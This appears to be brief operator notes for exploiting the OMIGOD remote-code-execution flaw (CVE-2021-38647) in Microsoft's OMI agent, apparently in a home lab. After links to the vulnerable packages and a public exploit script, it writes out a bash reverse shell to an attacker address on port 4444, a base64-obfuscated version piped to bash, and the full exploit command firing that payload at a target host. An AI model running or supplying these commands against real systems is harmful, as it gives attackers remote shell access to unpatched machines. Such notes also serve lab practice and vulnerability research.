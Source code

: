 
OMIGOD RCE-Exploit (CVE-2021-38647)
------------------------------------
Open Management Infrastructure (OMI - v1.6.8-0) - https://github.com/microsoft/omi/releases/download/v1.6.8-0/omi-1.6.8-0.ssl_110.ulinux.x64.deb
SCXCore v1.6.8-1 - (OMI Dependency) - https://github.com/microsoft/SCXcore/releases/download/v1.6.8-1/scx-1.6.8-1.ssl_110.ulinux.x64.deb
Reference - https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure/
Exploit_Code - https://github.com/horizon3ai/CVE-2021-38647/blob/main/omigod.py
payload: echo -n 'bash -i >& /dev/tcp/192.168.11.110/4444 0>&1' | base64 -w 0
base64_payload: "echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExLjExMC80NDQ0IDA+JjE= | base64 -d | bash"
python3 omigod.py -t 192.168.11.125 -c "echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExLjExMC80NDQ0IDA+JjE= | base64 -d | bash"
